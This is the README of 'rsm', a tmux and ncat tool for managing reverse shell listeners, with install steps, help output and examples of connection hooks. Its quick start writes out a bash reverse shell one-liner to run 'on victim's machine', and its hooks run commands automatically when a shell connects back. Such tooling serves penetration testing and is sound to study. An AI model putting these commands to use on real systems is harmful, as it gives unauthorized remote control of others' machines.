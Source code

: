 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Install

```shell
BIN_PATH=/usr/local/bin/rsm
curl -o "$BIN_PATH" https://raw.githubusercontent.com/djosix/rsm/master/rsm
chmod +x "$BIN_PATH"
```

## Quick Start

1. Listen on a port and attach to rsm tmux session:
    ```shell
    rsm 14641
    ```
    > `rsm` creates it's own tmux socket, so it will not mess up with your default tmux sessions.

2. On victim's machine, launch a reverse shell:
    ```shell
    bash -c 'bash -i >& /dev/tcp/127.0.0.1/14641 0<&1'
    ```
3. Once it connects back to the `rsm` port, `rsm` will create a new tmux window to handle the TCP connection. You can simply switch to that window and start typing commands.

## Usage

`$ rsm --help`

```
Usage: COMMAND [OPTIONS]
Commands:
    rsm PORT            Start a reverse shell listener on PORT
    rsm d[etached] PORT Start a detached reverse shell listener on PORT
    rsm l[ist]          List active rsm listeners
    rsm i[nfo] PORT     Show details of listener on PORT
    rsm i[nfo]          Show details of all rsm listeners
    rsm s[top] PORT     Stop a rsm listener on PORT
    rsm s[top]          Stop all rsm listeners
    rsm a[ttach] PORT   Attach to a rsm session listening on PORT
    rsm a[ttach]        Attach to the last rsm session
    rsm c[lean] PORT    Clean sockets for PORT
    rsm c[lean]         Clean all sockets
    rsm h[elp]          Show this help message
Options:
    -d, --dir DIR       Where the rsm sockets be stored (default: /tmp/.rsm)
    -n, --max-conn N    Maximum number of connections (default: 128)
    -r, --max-recv N    Maximum receiving MB (default: 64)
    -c, --hook CMD      Command to eval when a client connects
    -w, --with CMD      Command to eval when rsm starts
    --ncat-flags FLAGS  Additional command line flags for ncat
    --tmux-flags FLAGS  Additional command line flags for tmux
    -h, --help          Show this help message
```

## Connection Hooks

You are able to run custom command to handle a client connection:

```shell
rsm detached 12345 --hook 'echo "Hello, you are from ${IP}:${PORT}!"; exit'

ncat 127.0.0.1 12345
# Hello, you are from 127.0.0.1:50920!
```

With this feature, you can run commands automatically when a reverse shell connects back:

```shell
rsm detached 12345 --hook "echo 'echo SomeContent > \$HOME/SomeFile; exit'; exit"

bash -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0<&1'
cat ~/SomeFile # SomeContent
```
